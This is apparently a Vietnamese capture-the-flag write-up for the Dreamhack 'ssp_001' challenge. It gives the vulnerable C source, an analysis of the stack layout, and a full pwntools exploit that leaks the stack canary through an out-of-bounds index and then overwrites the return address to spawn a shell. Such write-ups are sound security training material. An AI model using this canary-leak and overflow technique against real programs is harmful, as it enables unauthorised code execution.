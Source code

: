 # DH[ssp_001]

![ssp1](ssp1.png)

    $ file *
    ssp_001:   ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ee998115adcc2751595b8d60732998fe634dfd8, not stripped
    ssp_001.c: C source, ASCII text

### Source code
 
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```
![ssp2](ssp2.png)

### Analys

Chương trình sẽ in ra **menu** gồm `Fill in the box`, `Print the box` và `Exit`. `F` cho phép người dùng nhập dữ liệu vào mảng `box`, `box` có độ lớn `0x40` và `read` đúng `sizeof(box)` nên không có gì để khai thác ở đây. `P` sẽ in ra giá trị của phần tử của mảng `box` được chỉ định bởi người dùng bởi hàm print `box`, hàm này sẽ in ra từng `byte` một, cái này có lẽ sẽ giúp ích được gì đó =)). `E` : đầu tiên sẽ bắt ta nhập một số là độ lớn mà ta muốn ghi vào mảng `name` rồi nhập dữ liệu vào nó, trong khi mảng `name` đã được cố định độ lớn là `0x40`, nếu ta khai báo độ lớn vượt quá ngưỡng này sẽ gây ra `bof`.

**Checksec** cho biết `NX bit` và `Canary` đang được bật. Kịch bản là ta sẽ *leak canary* bằng chức năng `[ P ]` và **overerite return address** tới `get_shell` thông qua `[ E ]`.

Muốn `leak` được thì trước tiên ta phải xác định được thứ tự các biến trong stack.

![ssp3](ssp3.png)

Trước khi return, `Canary` sẽ kiểm tra giá trị lúc đầu và hiện tại, nên `[ebp - 0x8]` chính là địa chỉ của `canary` 

![ssp4](ssp4.png)

Chương trình sẽ cmp các giá trị rồi `jump` tới địa chỉ cần thiết giống như câu lệnh **switch case** trong `source code`
Đây là lệnh `jump` cuối cùng 

![ssp5](ssp5.png)

Ta có sơ đồ trong stack

![ssp6](ssp6.png)

Như vậy có thể thấy được `canary` sẽ nằm ở phần tử thứ `128`, `129`, `130`, `131` của `box`

### Exploit 

    Payload = 0x40byte name + 4 byte canary + 4byte trống + 4 byte ebp + get_shell

```python
#!/usr/bin/python3
from pwn import *
exe = ELF('./ssp_001', checksec=False)
canary = b'0x'
#p = process(exe.path)
p = remote('host3.dreamhack.games',24520)
p.recvuntil(b'>')
for i in range(131, 127, -1):  # leak canary
	p.sendline(b'P')           
	p.sendlineafter(b": ", str(i))
	p.recvuntil(b"is : ")
	canary += p.recv(2)
canary = int(canary, 16)
log.info("canary: " + hex(canary))
payload = b"A" * 0x40
payload += p32(canary)
payload += b'A'*8
payload += p32(exe.sym['get_shell'])
p.send(b'E')
p.sendlineafter(b': ', b'100') # sizename = 100
p.sendafter(b": ", payload)
p.interactive()

```
![ssp7](ssp7.png)

`flag: DH{00c609773822372daf2b7ef9adbdb824}`